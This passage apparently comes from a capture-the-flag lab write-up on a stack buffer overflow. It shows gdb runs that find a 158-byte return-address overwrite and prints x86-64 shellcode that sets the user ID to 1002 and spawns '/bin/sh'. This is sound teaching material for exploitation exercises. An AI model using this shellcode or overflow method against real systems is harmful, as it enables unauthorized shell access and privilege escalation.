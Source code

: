 Here the size of the buffer is 140 bytes. *using gdb find the overflow point*

![](zNMC7in.png)


As the buffer grows up it overwrites the return address.
**We are going to point the return address back to the buffer**
Why?
The code for executing the shell is to be stored in buffer.
Overflow point for successfull return address overwrite is 158 as you can see in the below output.
```
(gdb) run $(python -c "print('A'*158)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A'*158)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? () <==========return address over written
(gdb) run $(python -c "print('A'*159)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A'*159)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400563 in copy_arg () <== redirected to other address
```

[I've used the shell code used here](https://l1ge.github.io/tryhackme_bof1/)
Shellcode in Assembly 
```
xor    rdi,rdi			
xor    rax,rax		
xor    rsi, rsi    		
mov    si, 1002      	    
mov    di, 1002			
mov    al,0x71			     
syscall					
xor    rdx,rdx
movabs rbx,0x68732f6e69622fff
shr    rbx,0x8
push   rbx
mov    rdi,rsp
xor    rax,rax
push   rax
push   rdi
mov    rsi,rsp
mov    al,0x3b
syscall
```